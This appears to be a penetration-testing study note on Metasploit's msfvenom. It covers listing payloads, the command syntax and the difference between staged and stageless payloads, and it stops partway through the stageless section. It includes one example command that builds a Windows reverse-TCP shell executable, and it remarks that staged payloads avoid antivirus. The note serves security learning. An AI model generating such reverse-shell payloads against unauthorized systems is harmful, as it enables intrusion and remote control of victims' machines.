 ```yaml
---
tags:
  - Penetration-Testing
  - Shells
---
```

Part of the Metasploit framework, msfvenom is used to generate payloads used primarily for generation of reverse/bind shells.
- Can generate payloads in various formats (.exe, .aspx, .war, .py, etc)

## Listing All Payloads
```bash
msfvenom --list payloads
```
**Can then grep for specifics**
## Syntax
```bash
msfvenom -p <PAYLOAD> <OPTIONS>
```

Example
```bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen_IP> LPORT=<listen-port>
```
![[Pasted image 20240707171653.png]]

## Staged vs Stageless Payloads

### Staged Payloads
- Payload is sent in two parts: **Stager** and **Reverse Shell Code**
	- Stager is sent first, simply connects back to listener (no shell code)
	- Uses connection to load true payload (never touches victim disc, avoid AV)
	- Reverse Shell Code is then fully uploaded through Stager connection
- Staged payloads require special listener (**Metasploit multi/handler**)

### Stageless Payloads
- Payload is entirely self-contained in a single piece of code